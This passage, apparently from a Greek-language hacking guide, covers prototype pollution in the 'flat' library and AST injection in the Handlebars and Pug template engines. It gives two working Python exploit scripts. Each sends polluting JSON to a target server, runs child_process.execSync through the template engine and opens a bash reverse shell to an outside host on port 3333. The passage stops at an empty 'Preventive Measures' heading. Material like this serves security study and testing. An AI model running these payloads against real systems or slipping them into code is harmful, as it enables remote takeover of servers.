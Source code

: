 **Εξωτερική Αναφορά**: Ένα ζήτημα που σχετίζεται με τη ρύπανση πρωτοτύπου βρέθηκε στη βιβλιοθήκη 'flat', όπως αναλύεται εδώ: [Issue on GitHub](https://github.com/hughsk/flat/issues/105).

**Εξωτερική Αναφορά**: [Issue related to prototype pollution in the 'flat' library](https://github.com/hughsk/flat/issues/105)

Παράδειγμα εκμετάλλευσης ρύπανσης πρωτοτύπου σε Python:
```python
import requests

TARGET_URL = 'http://10.10.10.10:9090'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
"__proto__.type": "Program",
"__proto__.body": [{
"type": "MustacheStatement",
"path": 0,
"params": [{
"type": "NumberLiteral",
"value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
}],
"loc": {
"start": 0,
"end": 0
}
}]
})

# execute
requests.get(TARGET_URL)
```
#### Ευπάθεια Pug

Το Pug, μια άλλη μηχανή προτύπων, αντιμετωπίζει παρόμοιο κίνδυνο μόλυνσης πρωτοτύπου. Λεπτομερείς πληροφορίες είναι διαθέσιμες στη συζήτηση για [AST Injection in Pug](https://blog.p6.is/AST-Injection/#Pug).

Παράδειγμα μόλυνσης πρωτοτύπου στο Pug:
```python
import requests

TARGET_URL = 'http://10.10.10.10:9090'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
"__proto__.block": {
"type": "Text",
"line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
}
})

# execute
requests.get(TARGET_URL)
```
### Προληπτικά Μέτρα
